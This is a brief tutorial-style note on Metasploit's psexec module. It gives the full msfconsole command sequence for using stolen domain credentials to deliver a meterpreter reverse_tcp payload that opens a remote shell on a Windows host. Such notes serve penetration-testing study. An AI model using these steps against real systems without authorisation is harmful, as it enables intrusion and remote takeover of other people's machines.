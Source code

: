 ## psexec

psexec is a module that can be used in Metasploit's framework. You will need to have recovered the domain and a username/password combination before you can use this. 

To use psexec:

``msfconsole`` - ``no`` to starting the webservice. - ``yes`` to clearing the data. 

Then type:

``use exploit/windows/smb/psexec``

``set PAYLOAD windows/meterpreter/reverse_tcp``

``set RHOSTS REMOTEIP``

``set LHOST YOURIP``

``set SMBUser USERNAME``

``set SMBPass PASSWORD``

``set SMBDomain USERSDOMAIN``

I will then double chek to make sure that I have added the required fields and that there are no typos that I can see.

``show options``

If everything looks good, its time to send it!

``exploit``

If everything worked correctly, you should now have a meterpreter shell on the remote host that looks like:

``meterpreter >``
